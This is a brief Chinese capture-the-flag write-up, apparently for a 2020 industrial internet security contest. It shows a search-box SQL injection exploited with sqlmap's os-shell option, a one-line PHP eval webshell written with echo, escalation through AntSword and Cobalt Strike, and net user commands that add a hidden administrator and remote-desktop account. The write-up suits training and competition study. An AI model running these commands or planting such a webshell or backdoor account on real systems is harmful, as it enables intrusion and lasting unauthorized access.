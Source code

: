 
# web

搜索框注入

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/8.png)


sqlmap 直接拿 os-shell
```
python3.exe sqlmap.py -r e:\c.txt --os-shell
```

输入 cmd 命令生成 webshell

`echo ^<?php eval($_POST["shell"]); ?^> >1.php`

蚁剑连接 1.php, 上 cs 提权

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/7.png)
```
net user a Abcd1234 /add
net localgroup administrators a /add
net localgroup "Remote Desktop Users" a /add
```
